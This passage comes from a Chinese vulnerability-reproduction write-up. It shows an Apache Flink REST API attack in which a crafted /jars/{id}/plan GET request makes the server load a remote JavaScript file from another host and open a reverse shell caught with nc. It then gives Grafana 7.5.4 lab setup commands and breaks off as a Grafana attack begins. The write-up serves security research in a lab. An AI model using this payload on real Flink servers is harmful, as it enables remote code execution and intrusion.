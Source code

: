 1.  攻击

访问 [http://10.211.55.3:8081/jars/](http://10.211.55.3:8081/jars/)

[![](https://storage.tttang.com/media/attachment/2022/11/29/d5415196-0d39-4ace-bc3e-c59506fcc40f.png)
](https://storage.tttang.com/media/attachment/2022/11/29/d5415196-0d39-4ace-bc3e-c59506fcc40f.png)

浏览器访问（`{idvalue}`替换为上图的`e3ea857b-4b5e-4889-8a03-3bc1fcfbd04a_flinkJobdemo.jar`

`http://10.211.55.3:8081/jars/{idvalue}/plan?entry-class=com.sun.tools.script.shell.Main&programArg=-e,load(%22http://10.211.55.2:8000/a.js%22)&parallelism=1` 

如下图`a.js`被访问，`nc`接收到反弹的shell

[![](https://storage.tttang.com/media/attachment/2022/11/29/f30c3142-d62a-41a5-86f1-d21d0e8223d4.png)
](https://storage.tttang.com/media/attachment/2022/11/29/f30c3142-d62a-41a5-86f1-d21d0e8223d4.png)

[注意：](#toc__3)
--------------

1.  复现过程中出错，可能会导致`flink`服务`shutdown`，需要手动`kill`进程ID
2.  根据[官方文档最新](https://nightlies.apache.org/flink/flink-docs-master/docs/ops/rest_api/)显示，`/jars/:jarid/plan`只支持`post`请求。但经过测试还是可以用`get`进行访问
3.  尝试挖掘`jdk8`及以下是否有可利用的main函数，未果

[参考：](#toc__4)
--------------

*   [https://hackerone.com/reports/1418891](https://hackerone.com/reports/1418891)
*   [https://blog.csdn.net/feinifi/article/details/121293135](https://blog.csdn.net/feinifi/article/details/121293135)
*   [https://nightlies.apache.org/flink/flink-docs-master/docs/ops/rest_api/](https://nightlies.apache.org/flink/flink-docs-master/docs/ops/rest_api/)

[环境搭建](#toc__5)
---------------

`VMware-ubuntu20.04`下执行该命令

`sudo apt-get install -y adduser libfontconfig1
wget https://dl.grafana.com/enterprise/release/grafana-enterprise_7.5.4_amd64.deb
sudo dpkg -i grafana-enterprise_7.5.4_amd64.deb

sudo grafana-cli plugins install grafana-image-renderer 3.0.0
sudo apt-get install libx11-6 libx11-xcb1 libxcomposite1 libxcursor1 libxdamage1 libxext6 libxfixes3 libxi6 libxrender1 libxtst6 libglib2.0-0 libnss3 libcups2  libdbus-1-3 libxss1 libxrandr2 libgtk-3-0 libasound2 libxcb-dri3-0 libgbm1 libxshmfence1 -y

sudo systemctl daemon-reload
sudo systemctl start grafana-server
sudo systemctl status grafana-server` 

[攻击过程](#toc__6)
---------------

1.  修改配置文件`grafana.ini`的内容
